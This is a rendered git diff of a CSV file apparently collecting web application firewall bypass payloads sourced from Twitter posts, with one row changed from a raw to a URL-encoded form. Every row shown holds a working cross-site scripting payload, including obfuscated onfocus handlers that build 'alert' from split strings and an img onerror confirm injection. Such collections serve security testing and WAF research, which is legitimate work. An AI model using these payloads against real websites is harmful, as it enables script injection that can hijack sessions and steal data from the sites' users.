

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in ….

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -499,3 +499,3 @@ https://vulners.com/githubexploit/7A6411F4-C896-52AB-9725-D10DEBF9CD0F?utm_sourc
 https://twitter.com/TakSec/status/1786074467728515132, 1%27%22%26gt%3B%26lt%3BA%20HRef%3D%5C%22%20AutoFocus%20OnFocus%3Dtop%2F%2A%2A%2F%3F.%5B%27ale%27%252B%27rt%27%5D%281%29%26gt%3B,xss
-https://twitter.com/KN0X55/status/1786022967933046971, <A HRef=\" AutoFocus OnFocus=top/**/?.['al'%2B'ert'](1)>,xss
+https://twitter.com/KN0X55/status/1786022967933046971,%20%3CA%20HRef%3D%5C%22%20AutoFocus%20OnFocus%3Dtop%2F%2A%2A%2F%3F.%5B%27al%27%252B%27ert%27%5D%281%29%3E,xss
 https://twitter.com/PrinceOker79109/status/1786548416010498123, <Img Src=OnXSS OnError=confirm("Hacked_by_a7madn1")>,xss
```
